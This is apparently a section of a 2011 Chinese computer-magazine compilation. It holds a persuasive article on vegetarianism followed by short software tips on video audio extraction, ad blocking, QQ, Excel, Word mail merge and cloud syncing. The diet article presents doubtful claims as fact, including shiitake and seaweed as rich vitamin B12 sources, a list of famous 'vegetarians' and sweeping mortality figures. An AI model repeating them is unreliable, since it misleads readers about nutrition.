http://ishare.iask.sina.com.cn/f/7520969.html（向肉食说NO）
http://ishare.iask.sina.com.cn/f/10346842.html（21世纪健康饮食）

### 会不会没营养？

“可是，吃素会不会营养不良呀？”

“不会的。这样好了，我给你两个宝贝，你自己查查看：钙、铁、蛋白质……哪种营养不能从植物性食物中获取？”

#### 1. 中国食物成分表

http://ishare.iask.sina.com.cn/f/7310579.html
http://ishare.iask.sina.com.cn/f/5521776.html

#### 2. 食物营养成分在线查询

```
http://yingyang.118cha.com
```

盼盼立即试着查了几种她比较关心的营养元素。结果令她很意外。美白的维生素C就不必说了，含量前100名的，都是水果蔬菜，完全见不到动物性食物的踪影。而“三高”者最怕的胆固醇，则恰恰相反，除了奶油和酥油，完全与素食不沾边，都是由荤食带来的。再来看看蛋白质、钙和铁。

“唉呀，原以为，鸡蛋的蛋白质含量很高，谁知，与豆类、豆制品、果仁类一比，差远去了！”盼盼很意外。

“想不到龙虾、河虾的钙含量这么低，才分别为21mg/100g及325mg/100g！反而芥菜干、芝麻酱、豆腐干这些素食，达到了1000mg/100g以上。不过虾皮还好，与素食差距没那么大。”

“可是，它的胆固醇含量高达428mg/100g啊！你这位‘三高’女士，还是绕道吧。”苏苏提醒。

“噢！铁含量，荤食居然也没什么优势！”
“此外，叶酸可从深绿色蔬菜、豆类、坚果类中摄取；而香菇、慈菇、紫菜、海带、发酵豆制品（如红腐乳、豆豉）、芽菜及全麦、糙米……它们的维生素B12含量也很高。”


“嗯，从数据看，好像营养是没问题。可是，”盼盼还是不放心，“有没有实例证明，吃素对我们没有害处呢？比如说，会不会体力不够？会不会不聪明？”

### 会不会体力不够？

“马、牛和大象，它们吃素，你吃肉，你的体力比得过它们？”

“太能扯了吧？严肃点！”盼盼瞪了苏苏一眼。

“呵呵，这是印度瑜伽导师帕汉姆在《为什么不应该吃肉》一书中说的。好，不说动物了，说人吧。我给你略举几个素食运动员的例子吧！”（见素食名人榜体力篇）

### 素食名人榜（体力篇）

#### 马拉松冠军：孙基祯先生

第11届柏林奥运的马拉松冠军，他是位素食者。马拉松是非常考验体力的，没有相当的体力，无法顺利地跑完全程。更别说拿冠军。孙基祯先生还享年90岁，这样的高寿在运动员中很少见哦。

#### 九面奥运短跑金牌得主：卡尔·刘易斯 (Carl Lewis)

现代田径史上难得的奇才，13次打破世界纪录，被誉为“欧文斯第二”，他说：“我参赛表现最佳的一年，正是我开始吃素的那一年。”这位运动家还是严格的素食者，连牛奶跟鸡蛋都不沾。

#### 运动家：大卫·史考特 (Dave Scott)

他曾经说：“运动员需要动物性蛋白质的说法，其实是可笑的谬论。”因为他本身是素食者。他曾经连续3年赢得夏威夷铁人3项持久赛的冠军。

#### 运动家：爱德温·摩西 (Edwin Moses)

刘翔的偶像，曾4次打破400米跨栏世界纪录。他更曾经在10年间世界各种跨栏赛事中，创下了122场比赛连胜的纪录，没有一次失手。而摩西本身也是素食者。

#### 运动家：穆雷·罗斯 (Murray Rose)

134 电脑爱好者 合订本·2011

## 生活百事通

## 《电脑爱好者》合订本

著名的素食游泳运动员，他年仅17岁就在同一奥运会中获得3枚金牌，曾打破多项世界纪录。他2岁开始吃素。

百度一下“素食 奥运冠军”，就会看到更多的素食奥运冠军了。

《素食者运动营养手册》的作者，迈阿密体育营养学家、奥运选手的教练丽莎·多芙娜 (Lisa Dorfman) 说，对运动量大的人，素食很有效。虽然肉食者也能像素食者一样有很好的爆发力，但爆发力之后，素食者开始显现他更好的耐力，这是肉食者远远比不上的。

### 会不会不聪明？

答案是：不会！早在两千多年前，我们的祖先就给出了答案：“食肉者勇敢而悍，食谷者智能而巧”。我们也略举几位名人为例吧（见素食名人榜智慧篇）。

### 素食名人榜（智慧篇）

- 科学家爱因斯坦
爱因斯坦是个素食者，他曾说，“吃素可以让智慧不被蒙蔽。”
- 美国发明之父、作家及外交家富兰克林
他说，“吃素这种负担较轻的饮食，使我的思绪愈来愈清晰，理解的速度也更快。”
- 国父孙中山先生
孙中山先生也是素食者。他说：“中国常人所饮者为清茶，所食者为淡饭，而加以菜蔬豆腐，此等之食料，为今日卫生家所考得为最有益于养生者也。故中国穷乡僻壤之人，饮食不及酒肉者，常多长寿。”
- 英国诗人雪莱
他说：“任何确实的实验都说明，任何一种生理或心理的疾病都能靠吃素和喝纯水而减轻病情。”

还远不止这些名人。美国总统林肯、非洲之父史怀哲、达芬奇、托尔斯泰、萧伯纳、甘地、伏尔泰、托尔斯泰、古希腊巨匠苏格拉底、柏拉图、毕达格拉斯……全是素食者。

素食者从科学家到革命家、总统、作家、哲学家，以他们的成就，没有人怀疑他们的智慧吧？您还担心素食者不聪明吗？

### 会不会不健康？

答案是：不会！恰恰相反，素食者更健康，有事实为证：

#### 保险公司为素食者打折

据报道，英国一保险公司已开始向素食者提供高达25%的人寿保费折扣优惠，原因是：素食者较平常人更长寿更健康。另外，素食餐馆投保食物中毒的费用也较低，因为素食的食物中毒机会要比肉食低。

#### 吃素让死亡率下降

这里有两个有趣的历史故事。
第一次世界大战时，丹麦由于被封锁而食物短缺，于是在1917年到1918年间，全丹麦有三百万人被迫吃素。一年后意外地发现，丹麦人的死亡率比过去18年来降低34%。
无独有偶，同是在第一次世界大战中，挪威人也曾因食物短缺而改为素食，其间，因循环系统的疾病而导致的死亡人数迅速下降。战后，挪威和丹麦两国人民恢复肉食后，其死亡率和心脏病的发病率很快就恢复到战前水平。

#### 百岁老人长寿的秘诀之一就是吃素

营养学家对世界五大长寿地区饮食习惯的研究证实，少吃肉，多吃蔬菜水果是促使这些地区的人长寿的重要原因之一。

1970年，科学家曾对著名的长寿村广西巴马瑶族自治县进行了全面的考察，调查了43位百岁老人，发现他们主要以玉米、红薯、大米和豆类等为主食，副食则主要以青菜、南瓜和瓜苗为主，很少吃荤食。

#### 新加坡国宝——许哲女士

新加坡的国宝许哲女士，她的传奇故事可能很多人都听过（没听过可以上网搜哦）。因为她助人的义举传遍全国，新加坡总统黄金辉曾特地邀请她喝下午茶。她是位终身的素食者。曾经有人问她，“您的养生之道是什么？为什么您可以在100多岁的高龄，每天还在照顾很多七八十岁的比您年轻三十几岁的老人？”许哲女士的回答很简单，就是开心加素食。

据估算，从饲养家畜到家畜被摆上餐桌这一过程中，所排放的CO2占全球总排放量的近四分之一。所以很多绿色组织都鼓励人们少食用红肉。我现在基本上是吃素的，我觉得大家可以试着一周至少吃一顿素食。

### 会不会太单调？

“这样看来，吃素好像也挺好。”盼盼有点动心了，“不过，吃素太单调了吧？整天青菜萝卜，我会食之无味的。”

“当然不是啦！素食菜谱丰富着呢！我介绍几个网站给你学习一下，几百个菜谱，你自己挑出喜欢的就行了。而且这些博客都会经常推出新菜谱。”

- 两个素食者的创意厨房 blog.sina.com.cn/veg
- 老爸老妈的素食厨房 hi.baidu.com/hyuansky
- 如蔬素食堂 blog.sina.com.cn/gdsdal
- 素食太保 blog.sina.com.cn/sushitaibao168

“好吧，都说到这份上了，那我就试试看，吃上半年素。”盼盼又打趣道，“你不如改名叫素素好了。”

### 明星也吃素

- 徐熙媛（大S）：
吃素不仅能减少身体负担，也有环保的意义……对我来说，最好的保养就是吃素了。
- 张学友：
吃素后，流汗不会臭，精神好，皮肤也变好。
- 王菲：
素食减肥清体，又容颜不老。
- 赵薇：
从我在电视上看到地震的画面那一刻开始，我就发了一个愿：我从这一日开始吃纯素。希望这个世界不再有灾难来临，希望那些受伤受苦的人们能看到希望吧。
- 周迅：
看了美国前副总统戈尔先生投资拍摄的纪录片《难以忽视的真相》后，被片中的内容深深震动。
……

此外，李连杰、冯小刚、蔡依林、李玟、吴佩慈、阿雅、范晓萱、黄磊、陈坤、刘涛、孙俪、叶童、胡静、“中国第一名模”姜培琳……仅公开的就有80多位，他们都是素食主义者。国外有许多巨星也吃素，如麦当娜、娜塔莉·波特曼、佩内洛普·克鲁兹、安妮·海瑟薇、莱昂纳多·迪卡普里奥……有兴趣的朋友，可以百度一下“素食明星”，您会了解到更多。

### 电脑有话说：

人类饮食讲究清清淡淡，我们电脑也喜欢干净清爽呢！什么时候最清爽？就是刚装完系统，其他杂七杂八的软件还没装，或者装得很少的时候啰。此时，我的头脑最清晰，响应速度最快！素食令人类更聪明、更健康、更美丽，我们电脑的“素”软件又在哪呢？也许，能加快我们运行速度的软件，能保护我们不受病毒和木马伤害的软件，不带恶意插件的绿色软件，都可视为“素”软件吧！

（文/沈慧）

## 怎样从网络视频中提取MP3

最近，网上热播《美人心计》，插曲很好听，上网查找却无果。有人提议用录音机自己录，可那样的效果并不好，难道就不能从网络剧的开头把歌曲提取出来吗？

其实，如果在一些著名视频网站有视频的话，完全可以用工具提取出来。鉴于知识产权的问题，自己享用足够了。

下面以土豆网为例，介绍一下我怎么做的。

### 工具/原料

- 1. 土豆网下载工具：iTudou；
- 2. 月亮FLV转换工具
- 3. 美人心计主题曲

### 步骤/方法

- 1. 打开视频网站，搜索“美人心计主题曲”，设法将视频以FLV形式储存到本地。
  方法①：用视频网站提供的下载工具，比如土豆网提供的某版本iTudou（版本可能更新）。
  方法②：用flvxz提取flv文件地址，然后用另存的办法储存到本地。
- 2. 将保存到本地的flv格式文件通过转换工具提取MP3文件。
  主要简单介绍用“月亮flv转mp3”这款软件转换成MP3。
  下载月亮flv软件，下载地址 (http://www.onlinedown.net/softdown/74904_2.htm)。
  打开月亮flv，在“目标文件夹”栏设置转换歌曲的存放地址。
  点击“增加”按钮，将“美人心计”主题曲的提取文件提取，然后点击“转换”，看FLV格式的文件一会儿就变成MP3格式的了。

### 小提示：

这次操作的原理是，借助一些手段将视频以FLV的形式保存下来，然后用FLV转换MP3工具提取音乐文件。

（文/车彦平）

## 多微博如何同时发布信息

现如今同时拥有多个微博是件很平常的事，但要同时管理这么多微博就不是一件容易的事。有如此烦恼的博主可以用“玛撒网”把一条信息同时发布到多个微博上，非常方便。

### 第一步：注册玛撒账号

打开http://www.masar.cn/，单击“立即注册玛撒”，进行简单注册即可，无需邮箱激活。

### 第二步：绑定多个微博

第一次登录玛撒网，会自动跳转到“绑定账号”页面，这里聚合了新浪、搜狐、腾讯、百度等二十多个知名微博，我们只要单击微博右上角的“+”号，然后输入该微博的账号和密码，单击“授权”后即可绑定。绑定成功后，单击“我的主页”返回到玛撒主页。如果以后需要绑定新的微博，在我的主页中，单击“绑定更多账号”即可。

### 第三步：消息同步绑定博客

在“想说点什么”中，输入自己的微博信息，还能通过下方的图片、视频、音乐按钮，发布电脑中的图片、或音视频播放页链接，然后单击“发布到”，从下方的博客列表中勾选需要同步的微博，最后单击“发布”即可。

### 第四步：定时发送有特色

在主页中单击“微博定时器”，打开定时器发送页面，输入微博内容后，单击“发送时间”输入框，就可指定发送日期和时间，然后单击“保存微博”即可。

（文/曹春华）

## 不用修改hosts文件 如何看到无广告的视频

不知从什么时候起，我家宝宝养成吃饭必看奇艺网动画片的习惯，最近，《加菲猫的幸福生活》成了他的最爱，可是每集之间都有15秒的广告，这可是他不能容忍的。为此，反屏蔽广告成了我的功课。修改hosts文件成了解决这一问题的常用方法，但是还有一些方法比修改hosts文件更为方便。

### 方法一：使用新版QQ2011

现在如果使用了新版本的QQ2011正式版（Q+），它提供的Q+应用市场，打开的奇艺网的视频没有广告清爽很多。
到http://www.qplus.com/下载安装QQ2011正式版（Q+），登录QQ账号，它比我们平时用QQ的客户端多了个Q+面板，默认出现在桌面的左侧（隐藏式），如果实在找不到，可通过QQ客户端界面右下角Q+来打开。
为方便打开我常去的优酷、奇艺、腾讯影视等视频网站观看无广告的视频，我们要把这些应用添加到Q+面板上：点击面板上的“Q+”图标，打开“应用市场”页面，在该页面左侧导航栏上点击“影音”，选择添加你要应用的视频网站，使这些视频网站的链接图标添加到Q+面板上，方便使用这些没有广告的视频网。下次可以登录QQ看没广告的奇艺了。
腾讯在webQQ上也提供了这个Q+应用功能，登录webQQ操作与Q+客户端一样，同样能看无广告的视频。

### 方法二：设置浏览器拦截

开始大家都使用火狐、遨游等浏览器来屏蔽广告。火狐之所以能屏蔽广告，是因为他能安装强大的屏蔽广告扩展插件——ABP，现在搜狗浏览器的Fans们有福气了，也能安装火狐的屏蔽广告的插件。使用方法如下：
首先，先安装插件。
打开搜狗浏览器工具栏上的“工具箱”选择“推荐工具”选项卡，在里面找到“ad广告过滤”插件并安装。
安装完“广告过滤”插件就开启它的使用功能了，这是我们在浏览器的工具栏上看到“ad过滤广告”工具，同时在浏览器的地址栏右侧增加了“ad”图标（表示广告过滤功能开启）。插件安装了，我们还需要给该插件定制个过滤规则。

#### 其次，定制广告过滤规则。

点击浏览器上的“ad广告过滤”工具，选择“选项”打开搜狗浏览器的广告过滤插件的设置选项，在订阅过滤规则库“选项卡内，勾选chinalist（中文）这项。（不要定制太多规则，有可能导致页面浏览不正常降低浏览网页的速度），过滤规则库会自动更新该规则包。现在打开奇艺、优酷网视频看看有没有15秒或30秒的广告？

### 方法三：手动添加规则包

此方法是方法二的延续，假如完成前面的设置后，奇艺的广告还在，说明定制的规则包不够强大，还需手动添加些规则才行。方法如下：
打开http://www.kuaipan.cn/index.php?ac=file&oid=4414994452056465，复制压缩包内的W版9.24.txt文档的规则，打开搜狗浏览器“ad广告过滤”插件的选项，在“选项”对话框内点击“自定义过滤”选项卡，“以纯文本编辑”把复制的规则粘贴到下面文本框内，点击应用。现在看看手动添加的规则包后是不是“百毒不侵”了？

## QQ群人数已满 巧借微群来扩容

去年刚建的一个QQ群，人数很快就超过100，对于普通群来说，100是极限。后来只好又陆续建了一些群，好让更多的人也加入进来。群多了，容易错过QQ群友的重要消息，管理也是件头疼的事情。其实这里有一个非常便捷的解决方法，自己可以将多个QQ群与微群绑定起来，这样就可以巧借微群的1000人的容量来扩容了。

### 小提示：

常玩微博的人都知道，微群就是微博群的简称，它能够聚合有相同爱好或者相同标签的朋友们，将所有与之相应的话题全部聚拢在微群里面，让志趣相投的朋友们以微博的形式更方便地进行参与和交流。
首先进入一个自己所建的微群，将鼠标指针移动到“管理群”上，之后在弹出的快捷菜单中选择“群绑定”命令。
此时会打开“群绑定”窗口，点击一下“绑定我的QQ群”按钮，这样你所建的QQ群都会如数显示在下方，需要绑定哪几个群，逐一单击群名称右侧的“绑定”按钮即可。
绑定完成后，所有QQ群中开通有腾讯微博的成员都会自动添加进该微群，QQ群消息栏也会出现群绑定的提示消息。
如此一来，以后自己便可以在一个微群里面管理多个QQ群的成员，人数也能扩充到最多1000人，微群也能够成为大家另一个交流沟通的平台。

## 傻姑学EXCEL：拒绝重复编码

在平时的工作和学习中，利用Excel录入数据常有编码重复的情况，如何减少这种错误呢？看看黄蓉是怎么指导傻姑操作的吧。

黄蓉：傻姑过来！让你给所有丐帮弟子编码，怎么那么多重复码？比如，张三和李四，编码怎么都是E00018？
傻姑：姑姑，丐帮人太多，编重几个就算了吧？
黄蓉：不行！这会造成管理混乱，而且以后我们还要开药店，要是药品也编重码了，发错药怎么办？来，我教你怎么查重复，避免重复。
在D2中录入：=countif(B:B,B2)（此公式求B2编码在B列中共出现几次），下拉填充公式。那么D列中大于1的，就是重复编码的了。
傻姑：重复的这么多啊？把重复的编码一个个筛出来删，也累死人啦！
黄蓉：你也知道编重了很多啊？这样，把D2的公式改成：=countif($B$2:B2,B2)（此公式求B2编码在B列中第几次出现），下拉填充公式。筛选D列中大于1的，就全是要改编码的了（而重复编码中，首次出现的，不会被筛出来）。
傻姑：这样快多了！那……我要是再编重了怎么办？

黄蓉：这好办。选中B列，点击“数据→有效性→设置”，在“允许”中选“自定义”，在“公式”中录入：=countif(B:B,B1)<2，点击“确定”即可。
试试看，如果你在B列中录入重复编码，EXCEL就会弹出“输入值非法”的错误提示了！

### 小提示：

1. 所有公式的标点符号，应在英文状态下录入。
2. 有效性设置，对于直接录入的数据能起限制作用。但如果数据是以复制、填充方式录入的，则不会弹出错误提示，需要注意。
3. 在2007和2010版中使用数据有效性：点击“数据→数据有效性→数据有效性→设置”，其余操作类似。



## 录制演示 让演讲跟片走

汤老师参加了次师德演讲会，取得了成功。自演讲会后，不少学校领导打电话让她去做演讲，可汤老师也有本职工作，不可能一一到场。学校的信息技术老师给她想了个折中的方法，就是给用PowerPoint制作的演讲文稿录制幻灯片演示，让同步演讲跟随幻灯片。这样只要将演讲文稿发给其它学校，他们就可以直接播放收听演讲啦。

### 制作步骤如下：

准备好麦克风，并确保录制环境比较安静，并且将电脑音量调低一些，只要教师稍微能听到就行，或者直接静音，这样确保录音中没有杂音。
①单击“录制幻灯片演示”按钮，选择“幻灯片和动画计时”和“旁白和激光笔”选项。播放演讲文稿，教师对着麦克风进行演讲，演讲词会作为幻灯片旁白录制下来。
②在录制过程中，如果对某个环节不太满意，可选中该幻灯片，然后单击“录制幻灯片演示”旁的“▼”按钮，选择“清除→清除当前幻灯片中的旁白”，再选择“从当前幻灯片开始录制”。录制完成后，按【ESC】键停止即可，这样就避免了一张幻灯片有问题而从头再录。
录制完成后，只需要将演讲文稿、音视频等文件，打包发送给其他人，就实现了让演讲跟随幻灯片走。

### 小提示：

在制作演示类幻灯片时，图片、声音等素材最好设置成自动播放，尽量减少演示者的操作次数。在给演讲文稿添加旁白后，我们可以看到幻灯片上会自动增加声音图标，这就是旁白录音。我们可以右击选择“剪裁音频”，删除音频首尾中不需要的部分。

# 琐碎打包帮你整理小文档

电脑使用时间长了，不可避免会产生许多小文档，比如平时收集的文章、资料，分别以txt、Word等各种形式保存，这些小文档长期散落在硬盘的各个角落，偶尔要用找起来也麻烦，琐碎打包工具可以帮助你将它们打包成一个CHM文件，还可以加上说明页，既有目录又可以全文搜索，从此不再凌乱，而且CHM本身是压缩格式，几MB的Word文档打包后就几百KB，节省了空间，方便了搬运，想要用时只要点击链接就可以打开或下载，也可以反编译chm文件释放出来。

1.  运行琐碎打包工具，单击“文件→新建工程”或者直接单击工具栏上的“新建工程”按钮，在打开的对话框中选择好文件所在的位置，如果想将该文件夹下的所有文件都放置在生成的CHM文档中，则选中“所有文件”，可以根据需要选择“不含图片”或“只是网页”，还可以选择“自定义”，点击“目录包含文件类型”下的“添加”按钮，按照提示输入包含的扩展名，也可在“目录排除文件类型”下输入不能包含在CHM文档中的文件类型。
2.  确定后会在主界面的左侧显示出生成CHM文件的目录，单击“编译工程”按钮打开编译信息显示窗口，点击“编译”按钮即可完成CHM文件的生成，编译完成后，找到该CHM文件，双击后即可通过Windows打开。
3.  在创建CHM文档后，可以将那些不需要的文件删除，即从CHM文档中将其提取出来，打开CHM文档后，在文件列表中鼠标右击要删除的文件，选择“释放项及子项”即可将不需要的文件删除。
4.  生成的CHM文档是以并列位置的形式存在的，如果想让CHM文档具有条理性，比如按某一类进行归纳，则可以通过向上、向下、向左、向右来调节CHM文档中的小节内容，这样有助于查看时一目了然。
5.  对于生成的CHM文档，还可以通过添加说明以便于日后查找，右击需加说明的文件，选择“添加说明页”，然后在右边的“文件内容说明”下输入说明文字，这样以后浏览该CHM文件时，不用打开就可以知道它的主要内容了。

> 小提示：琐碎打包工具（下载地址：http://hzcnel.skycn.com/down/ssdbgj_setup181.zip）不仅可以生成单个的CHM文档，还可以汇集多个CHM文档，实现多个CHM文档之间的全文检索。按照上面介绍的方法，重新新建一个工程，将其他的CHM文档添加进来，就形成了一个新的CHM文档，从此再也不用为小文件的管理而发愁了。

(文/我心依旧)

# 召开家庭视频Party QQ2011正式版就能搞定

今年妹妹考入西安交通大学，我又在外地工作，到9月以后农村家中就只留下了父母俩，虽然经常通过电话联系，可是只能听到声音，看不到儿女的画面，父母很挂念，为了让我们一家能面对面拉家常，在十一长假期间，我为父母购买了电脑和摄像头，接入互联网，安装好QQ软件，经过几天的学习，父母基本掌握了电脑基本操作和QQ聊天技术，这一到周末，就可以与我和妹妹进行视频聊天了。使用了一段时间后，父母发现每次视频聊天时，只能与一个人进行，要么是儿子，要么是女儿，如果能三方同时视频聊岂不更亲切？虽然可以安装一些多人视频聊天软件来实现，但是父母不会安装这些软件，而且这些软件父母操作起来也会很不方便。还好，新发布的QQ2011正式版中增加了多人视频功能，只要将QQ升级到2011正式版就可以使用了，而且操作十分简单，父母操作没有难度，于是我使用远程控制的方式，在父母电脑上下载好QQ2011正式版后，让父母退出QQ后，双击下载的程序安装后，启动QQ2011正式版就可以进行多人视频了。在召开家庭视频Party时，我从QQ面板的右下角点击“打开应用管理器”按钮，打开“应用管理器”面板，点击第一个“多人视频”按钮。打开“多人视频会话”窗口后，点击其中的开始多人视频“+”按钮，在“选择联系人”窗口的左侧选择父母和妹妹的QQ，点击“添加”按钮，将他们添加到右侧列表中，点击“确定”按钮。这时父母和妹妹就会收到视频邀请，他们接受后，我们三方连接建立成功，各自的聊天图像就显示在“多人视频会话”窗口中，这时就可以进行视频语音聊天了，这下即可让我们一家轻松召开家庭视频Party了。

> 小提示：为了方便以后操作，我将“多人视频”按钮拖放到“应用管理器”下方的“主面板上的应用”区域中，如果该区域图标已满，则可以点击多余图标的右上角的减号删除不需要的图标，来腾出空位。这样就可将“多人视频”按钮添加到QQ面板上，下次使用时只需点击该按钮即可，同时我使用远程控制的方式为父母进行了操作演示和设置，让父母也能方便地发起召集家庭视频Party！

(文/韩佰利)

# 手机离线下载 我能实现

你是不是会遇到这样的情况，特别想下载份文件，电脑不在手边，只有借助手机下载，然而，手机下载有个问题是流量会付费，能不能通过什么方式节省流量下载？其实，手机的UC浏览器有这个功能，能实现离线下载。

第1步：首先，先注册一个UC用户，启动UC浏览器后单击下载资源，此时会弹出UC下载提示窗口，按提示选择“离线下载”，接着即可选择保存到UC网盘还是中转站（普通用户容量1GB），同时在UC下载任务列表，开始启动离线下载。

第2步：在手机上完成离线下载后，等到我们到达公司或者家里时，只要打开http://www.uc.cn/index.html，然后使用自己的UC用户登录，以后就可以使用公司宽带将离线下载的资源保存到电脑上了。



> 小提示：UC离线下载并不会消耗手机流量和占手机存储，它只是将网上指定资源转移到UC服务器上，因此很适合那些经常要花费大量时间坐车上班的用户使用。UC几乎适合所有手机使用，只要下载适合自己手机的客户端安装即可，不同平台的使用类似。

(文/俞木发)

# 小技巧去除迅雷广告

迅雷的界面虽然设计上比较优雅，但是有各种广告存在，还有迅雷资讯自己跳出来。网上的确有很多的去广告版迅雷，不过因为曾经中过伪迅雷木马的关系，我已经对网上的去广告版不怎么信任了，其他人也提供过很多技术上的方法，可方法总是越简单越好对吧。首先我们需要一个迅雷的体验会员，不用多，三天就够了，方法有很多种，我是在http://act.vip.xunlei.com/trailcode/领取的激活码激活了三天。也可以通过YY或者支付1分钱或者挂迅雷网游加速器获得体验会员，当然免费的最好，只是在搜索时不要被骗。获得资格后打开迅雷，会发现自己的ID红了，那么就可以开始去广告了，鼠标移到广告上点右上角的叉叉，把各种广告都去掉，然后到配置里把迅雷资讯也去掉，OK，你的迅雷就不会有广告了，即使三天的资格过期了，迅雷依然不会有广告，升级迅雷版本也没有关系，可以说基本不反弹。

(文/钟凌风)

# 一招加快网易邮箱的访问速度

每天我都会使用网易邮箱，但受到网速限制，页面加载慢，性子急的人容易毛焦火辣，难道没有比较好的解决办法？其实，可以在网易邮箱中开启邮箱本地存储功能，这样往后邮箱数据（例如设置选项和通讯录）可以从你的电脑中直接载入，不必再等待相应的数据从邮箱服务器下载，从而大大加快登录速度。开启该功能的方法很简单，首先在网易邮箱欢迎界面中点击上方的“实验室”，这时会进入到“实验室”窗口，在其中找到“邮箱本地存储”该项，单击“马上开通”按钮。开通之后，接着点击“马上启用”链接，页面会跳转到“邮箱本地存储”高级设置对话框，在“设置本地存储”一栏选中“启用”，点击“确定”按钮，之后页面会弹出“系统提示”，直接单击“确定”即可。如此一来，该功能便成功启用了，在网易邮箱欢迎主页右侧你会看到“已启用邮箱本地存储服务”的点亮图标。最后需要提醒大家的是，由于邮箱数据会被存储在本地电脑，因此在公共或共享电脑上启用该功能时请保持谨慎。

> 小提示：该项设置浏览器可以是IE8、IE9、Chrome和Firefox。

(文/阿山)

# 禁止边缘最大化简单方法

2011年第12期《边缘最大化功能 请别自作聪明》一文，介绍了利用注册表禁止Windows 7窗口自动最大化的方法，但这种方法略显繁琐。其实只要打开“控制面板→轻松访问→轻松访问中心→使鼠标更易于使用”，选中“防止窗口移动到屏幕边缘时自动排列窗口”复选框，确定即可。

(文/阿拉雄)

## 巧用Word 2010邮件合并功能批量打印荣誉证书

又至岁末，各个单位荣誉证书的颁发是必不可少的。如表彰的人数和项目较多，打印荣誉证书的工作量自然也比较大，有的单位至今还是打印出待填的空白荣誉证书后，再用手工填写姓名和获奖项目。这显然不是什么好办法。使用Word 2010邮件合并功能，不管数量和项目再多，都能轻松快捷地打印出格式规范的荣誉证书。帮助您节约大量的宝贵时间，很值得推广。下面是手把手教您通过邮件合并功能实现荣誉证书批量打印的全过程，与您分享。

1.  第一步：填写授奖信息表格
    使用Excel 2010填写授奖信息表，包括授奖证书编号、姓名、类别及授奖名称。
2.  第二步：设计荣誉证模板
    结合已有的荣誉证书的证芯，使用Word 2010设计出荣誉证模板，将公共部分显示出来，待填的位置空出留用，点击“页面布局”选项卡下的“页面设置”，在“页面设置”对话框的“纸张”选项中，根据荣誉证书的实际尺寸自定义纸张大小。
3.  第三步：通过“邮件合并”自动生成荣誉证书
    (1) 点击“邮件”选项卡，显示所有帮助您完成邮件合并的功能。
    (2) 点击“开始邮件合并”，选择“普通Word文档(N)”选项。
    (3) 点击“选择收件人”，选择“使用现有列表(E)”选项，打开“选取数据源”对话框。
    (4) 在“选取数据源”对话框中，定位到“授奖信息表.xlsx”文件所在的路径并选择该文件。
    (5) 在“选择表格”对话框中选择授奖信息的“工作表”。
    (6) 点击“编辑收件人列表”，在打开的窗口中可以选择要授奖人的姓名，默认情况下是全选，选择完毕后点击“确定”按钮即可。
    (7) 光标移到要插入姓名的位置，点击“插入合并域”右侧的小箭头，选择“姓名”，用同样的方法，依次点击“插入合并域”，选择“类别”和“授奖名称”。
    (8) 点击“预览结果”，可以看到姓名、类别和授奖名称自动更换为受表彰人的信息，点击“预览结果”右侧的箭头或者输入数字，可以查看到所有的已全部替换成功。
    (9) 生成荣誉证书
    点击“完成并合并”右下角的箭头选择不同的项对其进行不同的处理。“编辑单个文档”可以将这些荣誉证书合并到一个Word文档中；“打印文档”可以将这些荣誉证书通过打印机直接打印出来。选择“编辑单个文档”，在“合并到新文档”中选择“全部”记录，随即生成一个荣誉证书的新文档，其中包括所有打印内容。编辑工作全部完成后就可逐张打印荣誉证书了。

## 借助网盘打造‘三位一体’的云版QQ

对于常用QQ的朋友来说，不少人希望聊天记录可以随时随地查阅，因此开通了QQ会员，享用“会员漫游”功能，可保存近30天的聊天记录，非QQ会员，一般使用消息同步功能，可保存近7天的聊天记录，实际上述两种方法，并不是非常完善，如：聊天中的图片无法漫游或同步，接收的文件也只能保存在当前电脑中……对于常用电脑比较固定的用户，如：家中的台式机、办公室的笔记本、随身携带的上网本……我们就可以借助网盘，打造“三位一体”的云版QQ，免费享有胜过QQ会员的消息漫游功能。

1.  第1步：首先为自己的电脑安装金山快盘(www.kuaipan.cn)，然后使用自己的QQ号码登录。
    这里不要担心QQ账号的安全，腾讯和金山目前是合作伙伴，登录后单击“允许”授权给快盘，稍后根据提示会自动在硬盘中创建一个快盘分区，打开快盘，在里面创建一个名为“QQ”的文件夹以备用。
2.  第2步：下载安装最新版本的QQ，在安装过程中可以选择“个人文件夹”。
    ① 选择“个人文件夹”，选择“自定义”，单击“浏览”按钮，将个人文件夹设置为快盘中的QQ文件夹。
    ② 如果QQ已经安装了，则登录QQ后单击主界面上的“主菜单”按钮。
    ③ 选择“系统设置→基本设置”，切换到“文件管理”选项，选择“自定义”，将个人文件夹设置为快盘中的QQ文件夹，并在下方设置个人文件超过800MB时，提醒清理，这样可避免网盘文件太多，而使以后同步速度变慢；选择“漫游我的设置”，可以将QQ的一些个性化设置和数据实现漫游，这样保证在不同电脑上使用QQ时，设置和数据一致。
3.  第3步：在快盘的QQ文件夹中新建一个名为files的文件夹，然后单击QQ主界面上的“主菜单”选择“系统设置→好友和聊天”，再切换到“文件传输”选项，将“文件传输”默认接受文件夹设置为files文件夹，这样以后接受的文件都会自动保存到当前文件夹，并且会自动同步到网盘，在其它电脑上安装金山网盘并登录，然后等数据同步到电脑的网盘后，再重新安装QQ。

> 小提示：
> 如果原来本机上有QQ，请先卸载并删除原有的数据文件。在安装QQ的过程中，将“个人文件夹”设置为快盘中的QQ文件夹，再将“文件传输”的默认接受文件夹设置为QQ文件夹中的files文件夹，这样我们就实现了多台电脑上的QQ数据同步。以后打开电脑，在金山网盘自动同步数据后再登录QQ，你会发现虽然是在不同的电脑上使用QQ，但聊天记录、表情图片、接受的文件等都保持最新状态，和在同一台电脑上使用QQ基本上没有区别。

## 电子邮箱是否被盗 一查便知

小黄使用的一个电子邮箱里保存有他的隐私信息，虽然他安全意识很强，密码设置得很复杂，而且还经常更换，但一些不健全的网络服务系统还是会让黑客有机可乘，黑客们一旦得到大量邮箱用户名和密码，就会将它们公布于网上，带点炫耀的意味。
小黄想知道自己的邮箱到底是不是受害者之一，利用名为Hacknotifier的站点在线检测一番便可知道答案。



登录http://www.hacknotifier.com/后将要检测的邮箱地址输入中间的空白框，单击“Have I been hacked”，检测结果很快就出来了，如果提示“Your email does not appear in any publicly available database leaks”，说明该邮箱还没有出现在任何公开的数据库泄露列表中，否则说明你的邮箱已经被盗，请及时更换密码。

## 附件上传受限 360压缩帮你应对

很多朋友喜欢在微博或论坛上传附件与好友分享，但无论是微博还是论坛，对上传的附件大小都有严格的限制，必须将文件按规定的大小打包方可。自己打包控制大小太麻烦，其实使用免费的360压缩即可轻松解决。
打开360压缩后，选择“分卷”选项卡，然后根据论坛、微博等附件大小要求值设置分卷包大小即可，若勾选“生成论坛专用分卷”的话则效果会更好。



